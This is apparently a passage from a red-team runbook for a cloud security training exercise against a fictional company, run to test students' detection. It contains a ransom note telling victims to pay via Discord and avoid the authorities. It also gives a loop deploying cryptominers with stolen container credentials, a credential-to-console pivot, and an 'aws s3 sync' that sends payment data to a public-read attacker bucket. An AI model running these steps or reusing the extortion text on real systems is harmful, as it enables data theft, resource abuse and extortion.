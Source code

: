 	Once the payment has been made, please reply in this discord with the transaction ID, and we will provide you with the decryption key to unlock your data.

	Do not attempt to contact the authorities or seek out any other assistance. Our technology and expertise far exceed any countermeasures you may attempt to deploy.

	We look forward to doing business with you.

	As proof we have your data, you can see it here:
	https://s3.console.aws.amazon.com/s3/buckets/CITY.fooli.wtf-recon?region=us-east-1&tab=objects
	https://s3.console.aws.amazon.com/s3/buckets/CITY.fooli.wtf-customer-dumps?region=us-east-1&tab=objects


### Impact - Deploy CryptoMiners
```bash
for city in `cat cities.txt` ; do
	source $city-container-creds.env
	./scripts/deploy-cryptominer.sh
done
```
GuardDuty should notify this is running.


## 14:00 Wednesday

*Quiet time*

## 16:00 Wednesday

### Lateral Movement - Pivot from API Keys, to Console, to SSM on Payments server

With exfiltrated credentials in the environment, execute [get_login_url.py](scripts/get_login_url.py)
```bash
./scripts/get_login_url.py
```
Open that URL in Incognito

### Exfiltration - Start dumping the Credit Card Data into S3.

**Note:** I didn't get around to this activity.

2. Via SSM export the data from payments server
```bash
sudo -s
aws s3 sync /var/log/unit/ s3://CITY.fooli.wtf-payments-exfiltration --acl public-read
```

3. Panic the students
Get Nick or Green to drop into team channels the URLs with the payment data

Script:
